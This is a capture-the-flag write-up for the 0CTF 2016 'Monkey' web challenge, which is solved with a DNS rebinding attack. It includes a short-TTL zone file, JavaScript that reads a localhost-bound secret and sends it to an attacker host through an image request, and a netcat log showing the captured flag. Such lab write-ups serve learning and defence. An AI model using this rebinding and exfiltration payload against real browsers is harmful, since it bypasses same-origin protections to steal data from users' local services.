

## 0CTF 2016 - Monkey (Web 4pt)
##### 12-14/03/2016 (48hr)
___

### Description: 
What is Same Origin Policy?

you can test this problem on your local machine

http://202.120.7.200

___
### Solution

Although I couldn't solve this challenge during the contest, the DNS rebinding attack
was pretty interesting, so I decided to implement it.

Initially we set out DNS records as follows (/etc/bind/db.risvc.net):

```
$TTL    9
@       IN      SOA     myns.risvc.net. root.risvc.net. (
                                 4         ; Serial
                                 9         ; Refresh
                                 9         ; Retry
                                 9         ; Expire
                                 9 )       ; Negative Cache TTL
;
                IN      NS      myns.risvc.net.
                IN      MX      9 mail.risvc.net.
myns            IN      A       52.86.7.190    
mail            IN      A       52.86.7.190
local           IN      A       192.168.1.102
 
; When victim visits local2.risvc.net for first time, we return 192.168.1.102
; Once victim gets connected we change local2 record and we restart DNS, so
; the next query for local2.risvc.net will return 127.0.0.1
local2          IN      A       192.168.1.102
;local2         IN      A       127.0.0.1
 
 
attacker        IN      A       192.168.1.102
```

TTL is very small, so it's expires after a short time. We send dns_rebind.html to the bot/victim,
so when it opens it on the browser, it executes our javascript in its context:

```javascript
	setTimeout(function() { 
			document.body.innerHTML += "</br>Time's up!"

			var xhr = new XMLHttpRequest();
			xhr.onreadystatechange = function() 
			{
				if( xhr.readyState == XMLHttpRequest.DONE ) 
				{
					var image = new Image();
			        image.src = "http://attacker.risvc.net:9999/?file=" + xhr.responseText

				}
			}

			xhr.open('GET', 'http://local2.risvc.net:8080/secret');
			xhr.send();

	}, 90*1000)
```

After 90 seconds our javascript code requests file: http://local2.risvc.net:8080/secret. 
However when the file is requested, a new DNS request is made, but this time the returned
IP is 127.0.0.1, so we can access local filesystem.

Below is a screenshot from wireshark. As you can see the 2 DNS responses, return different
IPs for the same domain:



Finally, once we read the file, a new connection is made to the attacker's machine and 
the secret file is send as part of the GET request:

```
root@nogirl:~# nc -nvvl -p 9999
 		listening on [any] 9999 ...
 		connect to [192.168.1.102] from (UNKNOWN) [192.168.1.101] 50876
 		GET /?file=0ctf{monkey_likes_banananananananaaaa} HTTP/1.1
 		Host: attacker.risvc.net:9999
 		Connection: keep-alive
 		User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
 		Accept: image/webp,image/*,*/*;q=0.8
 		Referer: http://local2.risvc.net:8080/play/dns_rebind.html
 		Accept-Encoding: gzip, deflate, sdch
 		Accept-Language: el-GR,el;q=0.8
```

For more details take a look at dns_rebind.html file.
___
